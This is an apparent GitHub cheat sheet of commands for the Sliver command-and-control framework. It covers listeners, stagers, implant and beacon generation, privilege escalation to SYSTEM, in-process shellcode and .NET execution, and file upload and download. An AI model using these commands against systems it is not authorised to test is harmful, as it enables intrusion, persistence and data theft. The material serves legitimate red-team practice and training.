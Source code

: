 | **Command** | **Description** |
| --------------|-------------------|
| `help`| Displays the commands and their descriptions|
| `http -L <Local IP> -l <Port>` | Set up HTTP listener |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 pofile |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>` | Set up Stager lstener |
| `generate --http <Local IP>:<Port> --os <OS>`| Generates a session implant|
|`generate beacon --http <Local IP>:<Port> --os <OS>`| Generates a beacon implant|
|`sessions`| Lists active/inactive sessions|
|`sessions -K`|Removes all sessions available or not|
|`sessions prune`|Removes unavailable sessions|
|`sessions -k -i <session>`|Removes the specified session|
|`beacons` | Lists active/inactive beacons|
|`tasks`| Lists the pending or completed tasks ran by the operator|
|`getsystem`| Attempts to get a session as `NT AUTHORITY\SYSTEM`|
|`interactive`| Tasks the beacon to spawn a session that becomes interactive|
|`cd`|Change directory|
|`ls`|Lists the contents of the directory|
|`download <file/directory>`| Downloads a file/directory|
|`upload`|Uploads a file|
|`execute-assembly`|Executes a .NET assembly in a child process|
|`execute-shellcode`|Executes the specified shellcode in process|
|`multiplayer`|Enables multiplayer mode on the server|
|`armory install <alias/extension>`|Installs the given alias/extension|
|`armory install all`|Installs all of the available aliases/extensions|